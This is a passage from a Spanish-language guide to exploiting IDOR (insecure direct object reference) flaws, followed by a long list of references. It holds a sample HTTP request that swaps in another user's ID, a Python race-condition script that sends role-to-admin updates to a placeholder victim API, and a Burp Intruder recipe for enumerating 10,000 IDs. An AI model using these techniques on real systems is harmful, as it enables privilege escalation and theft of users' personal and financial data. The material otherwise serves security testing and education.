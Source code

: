```json
{
  "user_id": [1001, 1002],
  "email": "atacante@email.com"
}
```

**Palabras Clave Estáticas**[^7]

```http
GET /api/user/current/profile HTTP/1.1
# Cambiar a:
GET /api/user/1002/profile HTTP/1.1
```

### Condiciones de Carrera

Para endpoints de actualización simultánea:

```python
import threading
import requests

def race_condition_idor():
    url1 = "https://victima.com/api/user/1001/update"
    url2 = "https://victima.com/api/user/1002/update"
  
    def request1():
        requests.put(url1, json={"role": "admin"})
  
    def request2():
        requests.put(url2, json={"role": "admin"})
  
    t1 = threading.Thread(target=request1)
    t2 = threading.Thread(target=request2)
  
    t1.start()
    t2.start()
```

### Snippet de Intruder para Burp Suite

Configurar Intruder con payload numérico secuencial (1-10000), analizar respuestas por código de estado y longitud de contenido.[^8]

## Impacto

### Escenario Real

Un atacante accede a datos financieros de 10,000 usuarios mediante enumeración de IDs secuenciales, obteniendo números de cuenta, transacciones e información personal identificable.[^9]

### Mapeo de Seguridad


[^1]: https://portswigger.net/web-security/access-control/idor
[^2]: https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html
[^3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References
[^4]: https://escape.tech/blog/idor-in-graphql/
[^5]: https://portswigger.net/web-security/graphql
[^6]: https://redmethod.hashnode.dev/idor-broken-authentication
[^7]: https://www.intigriti.com/blog/news/idor-a-complete-guide-to-exploiting-advanced-idor-vulnerabilities
[^8]: https://spyboy.blog/2024/09/19/idor-vulnerabilities-finding-exploiting-and-securing/
[^9]: https://www.webasha.com/blog/what-is-an-example-of-a-real-bug-bounty-report-where-idor-was-used-to-exploit-a-banking-application
[^10]: https://www.veracode.com/security/java/cwe-639/
[^11]: https://www.clouddefense.ai/cwe/definitions/639
[^12]: https://cqr.company/web-vulnerabilities/idor-vulnerability/
[^13]: https://www.aptori.com/blog/a-guide-to-identifying-idor-vulnerabilities
[^14]: https://gbhackers.com/building-a-threat-detection-pipeline-using-waf-logs-and-external-intel-feeds/
[^15]: https://the-red.team/post/templates/idor/
[^16]: https://www.nodejs-security.com/blog/how-to-hunt-for-idor-vulnerabilities-to-exploit-security-misconfiguration
[^17]: https://infosecwriteups.com/️-hunting-idor-a-deep-dive-into-insecure-direct-object-references-b550a9f77333
[^18]: https://limpiatuweb.com/blog/referencias-de-objetos-directos-inseguras-idor/
[^19]: https://www.legitsecurity.com/aspm-knowledge-base/insecure-direct-object-references/
[^20]: https://bigid.com/blog/idor-vulnerability/
[^21]: https://book.h4ck.cl/vulnerabilidades-web/idor-insecure-direct-object-reference
[^22]: https://www.wiz.io/vulnerability-database/cve/cve-2025-3281
[^23]: https://portswigger.net/burp/documentation/desktop/testing-workflow/access-controls/testing-for-idors
[^24]: https://virtualcyberlabs.com/insecure-direct-object-references-idor/
[^25]: https://www.youtube.com/watch?v=jvDFiIyNW_o
[^26]: https://authenticone.com/idor-the-silent-gateway-to-data-breaches/
[^27]: https://www.invicti.com/learn/insecure-direct-object-references-idor/
[^28]: https://www.vaadata.com/blog/what-are-idor-insecure-direct-object-references-attacks-exploits-security-best-practices/
[^29]: https://lab.wallarm.com/what/vulnerabilidad-idor-referencias-directas-a-objetos-inseguras/?lang=es
[^30]: https://osintteam.blog/understanding-cvss-scoring-with-a-real-world-idor-example-in-e-commerce-fbb885db932f
[^31]: https://www.first.org/cvss/calculator/3-1
[^32]: https://docs.hackerone.com/en/articles/8369826-detailed-platform-standards
[^33]: https://spyboy.blog/2025/04/24/the-ultimate-guide-to-finding-idor-vulnerabilities-guaranteed-approach-top-payloads-tools/
[^34]: https://infosecwriteups.com/how-to-choose-the-correct-severity-or-cvss-score-for-a-bug-a-practical-guide-7a83be0096f3
[^35]: https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html
[^36]: https://techcommunity.microsoft.com/blog/azurenetworksecurityblog/comprehensive-guide-to-monitoring-azure-waf-metrics-and-logs/4378260
[^37]: https://patchstack.com/database/wordpress/plugin/thumbs-rating/vulnerability/wordpress-thumbs-rating-plugin-5-1-0-insecure-direct-object-references-idor-vulnerability
[^38]: https://docs.guardrails.io/docs/vulnerability-classes/insecure-access-control/idor
[^39]: https://infosecwriteups.com/automate-xss-idor-bug-hunting-using-bash-python-a-hackers-toolkit-e8453e51f703
[^40]: https://hackerone.com/reports/2207248
[^41]: https://www.vaadata.com/blog/exploiting-a-broken-access-control-vulnerability-on-graphql/
[^42]: https://www.verylazytech.com/idor
[^43]: https://security.tecno.com/SRC/blogdetail/304?lang=en_US
[^44]: https://github.com/AyemunHossain/IDORD
[^45]: https://osintteam.blog/25000-idor-how-a-simple-id-enumeration-exposed-private-data-7de2f60c46fd
[^46]: https://github.com/S12cybersecurity/Idor-Hunter
[^47]: https://academy.hackthebox.com/course/preview/attacking-graphql
[^48]: https://help.aikido.dev/dast-surface-monitoring/api-scanning/understanding-and-detecting-idor-vulnerabilities
[^49]: https://snyk.io/blog/insecure-direct-object-references-python/
[^50]: https://sayfer.io/es/blog/idor-insecure-direct-object-reference/
[^51]: https://wiki.curiosidadesdehackers.com/insecure-direct-object-reference-idors-prueba-de-concepto-y-explicacion/
[^52]: https://notes.theoffsecgirl.com/01-fundamentos-esenciales/01g-uso-de-etc-hosts
[^53]: https://hetmehta.com/posts/Bypassing-Modern-WAF/
[^54]: https://www.skipso.com/responsible-disclosure
[^55]: https://www.nodejs-security.com/blog/idor-vulnerability-what-is-it-and-how-to-prevent-it
[^56]: https://osintteam.blog/cracking-the-shield-advanced-waf-bypass-techniques-that-still-work-in-2025-814cee616ccf
[^57]: https://www.aon.com/en/insights/cyber-labs/finding-more-idors-tips-and-tricks
[^58]: https://www.imperva.com/learn/application-security/insecure-direct-object-reference-idor/
[^59]: https://infosecwriteups.com/idor-attacks-made-simple-how-hackers-access-unauthorized-data-ca1158d18190
[^60]: https://hadrian.io/blog/insecure-direct-object-reference-idor-a-deep-dive
[^61]: https://bugbase.ai/blog/top-10-ways-to-bypass-waf